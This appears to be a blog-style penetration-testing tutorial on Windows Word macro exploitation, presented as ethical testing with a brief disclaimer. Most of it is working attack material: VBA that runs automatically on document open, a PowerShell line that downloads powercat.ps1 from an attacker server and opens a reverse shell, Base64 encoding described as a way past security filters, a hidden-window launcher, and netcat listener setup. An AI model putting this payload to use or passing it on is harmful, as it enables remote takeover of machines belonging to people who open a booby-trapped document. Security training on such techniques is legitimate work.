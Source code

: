 ```yaml
---
layout: post
title: "Windows Macro Exploitation"
date: 2024-11-01
categories: Client-Side
---
```


# Windows Macro Exploitation for Ethical Penetration Testing

## Table of Contents

1. [Introduction to Microsoft Word Macros](#introduction-to-microsoft-word-macros)
2. [Creating a Malicious Macro](#creating-a-malicious-macro)
3. [Automating Macro Execution](#automating-macro-execution)
4. [Creating a Reverse Shell with PowerCat](#creating-a-reverse-shell-with-powercat)
5. [Finalizing the Macro](#finalizing-the-macro)
6. [Testing and Execution](#testing-and-execution)
7. [Summary and Best Practices](#summary-and-best-practices)

---

## Introduction to Microsoft Word Macros

Microsoft Word macros enable automation of repetitive tasks through Visual Basic for Applications (VBA). When conducting ethical penetration testing, macros can serve as a vector to execute commands on a target machine if the target enables macros upon opening the document.

### Key Points

- **File Formats**: Use `.doc` or `.docm` formats to support macros. The `.docx` format does not support embedded macros.
- **Scripting Language**: VBA provides access to ActiveX objects and Windows Script Host, enabling low-level system commands.

---

## Creating a Malicious Macro

1. **Create and Save the Document**:
   - Open Microsoft Word and create a blank document. Save it as `test_macro.doc` with the `.doc` extension to support macros.

2. **Access the Macro Editor**:
   - In the document, go to `View > Macros > View Macros`.
   - Enter `AutoMacro` as the macro name and select `test_macro.doc` in the dropdown. Then, click **Create**.

3. **Define Basic Macro Code**:
   - In the Visual Basic for Applications (VBA) editor, add the following code to open a PowerShell window:

     ```vba
     Sub AutoMacro()
         CreateObject("Wscript.Shell").Run "powershell"
     End Sub
     ```

   This code opens a PowerShell session upon executing the macro.

4. **Save the Document**:
   - Save your macro code within the editor, and close it to return to the document.

---

## Automating Macro Execution

To ensure the macro executes automatically upon opening, add `AutoOpen` and `Document_Open` subroutines to the VBA code. These procedures call `AutoMacro` when the document opens.

```vba
Sub AutoOpen()
    AutoMacro
End Sub

Sub Document_Open()
    AutoMacro
End Sub

Sub AutoMacro()
    CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

This ensures the macro will automatically execute if the user enables macros.

---

## Creating a Reverse Shell with PowerCat

Once the macro execution is automated, the next step is to create a reverse shell using PowerCat.

1. **Prepare the PowerShell Command**:
   - The reverse shell connects back to the tester’s machine using PowerCat, a PowerShell utility that facilitates reverse shells. The base command looks like this:

     ```powershell
     IEX(New-Object System.Net.WebClient).DownloadString('http://[YOUR_SERVER_IP]/powercat.ps1');powercat -c [LISTEN_IP] -p [PORT] -e powershell
     ```

   - Replace `[YOUR_SERVER_IP]`, `[LISTEN_IP]`, and `[PORT]` with your testing machine’s IP and the designated listening port.

2. **Base64-Encode the Command**:
   - To avoid character encoding issues, convert the command to Base64 format. On Linux or Mac, use:

     ```bash
     echo -n "powershell-command" | iconv -t utf-16le | base64
     ```

3. **Automate String Concatenation Using Python**:
   - Since VBA limits each line to 255 characters, split the Base64-encoded string into smaller chunks, around 50 characters each. The following Python script can split and format the string for VBA:

     ```python
     str = "base64-encoded-string"
     n = 50  # Define chunk size

     for i in range(0, len(str), n):
         print('Str = Str + "' + str[i:i+n] + '"')
     ```

   - Replace `"base64-encoded-string"` with the actual Base64 string. The script will output VBA-friendly lines such as:

     ```vba
     Str = Str + "QWxsIGNoYXJhY3RlcnMgYW5kIHNwYWNlcyBoYXZl"
     Str = Str + "IGJlZW4gY29kZWQgdG8gYmFzZTY0IGZvciBlYXNl"
     ```

---

## Finalizing the Macro

In the `AutoMacro()` function, combine `AutoOpen` and `Document_Open` with the PowerShell command that launches PowerCat. Here’s the complete VBA code:

```vba
Sub AutoOpen()
    AutoMacro
End Sub

Sub Document_Open()
    AutoMacro
End Sub

Sub AutoMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc "
    
    ' Add the Base64-encoded PowerShell command in chunks
    Str = Str + "QWxsIGNoYXJhY3RlcnMgYW5kIHNwYWNlcyBoYXZl"
    Str = Str + "IGJlZW4gY29kZWQgdG8gYmFzZTY0IGZvciBlYXNl"
    ' Additional lines continue here
    Str = Str + "IG9mIHJlYWRhYmlsaXR5IGFuZCBjb25zaXN0ZW5j"
    Str = Str + "eSBpbiBwcm9kdWNpbmcgc3RyaW5ncw=="

    ' Execute the command
    CreateObject("Wscript.Shell").Run Str
End Sub
```

In this script:

- Each `Str = Str + "..."` line adds a 50-character segment of the encoded PowerShell command to the `Str` variable.
- After constructing the command, `CreateObject("Wscript.Shell").Run Str` executes it in a hidden PowerShell session.

---

## Testing and Execution

### Steps

1. **Start a Listener**:
   - Open a Netcat listener on `[PORT]` to receive the reverse shell connection.

     ```bash
     nc -lvnp [PORT]
     ```

2. **Host PowerCat**:
   - Start a simple Python web server to host `powercat.ps1`:

     ```bash
     python3 -m http.server 80
     ```

3. **Open the Document and Enable Macros**:
   - Open `test_macro.doc`, and when prompted, enable macros.
   - The macro will execute, triggering a connection back to the listener.

4. **Verify Reverse Shell**:
   - If successful, you should see a reverse shell session from the target machine on your listener.

---

## Summary and Best Practices

- **Ethical Use**: Only use these techniques with explicit permissions. Unauthorized use is illegal.
- **Understanding Macro Execution**: Be aware that many environments restrict macro execution.
- **Base64 Encoding**: Encoding PowerShell commands helps avoid issues with special characters and security filters.
- **VBA Limitations**: Using Python to split long strings helps accommodate VBA’s line character limits.
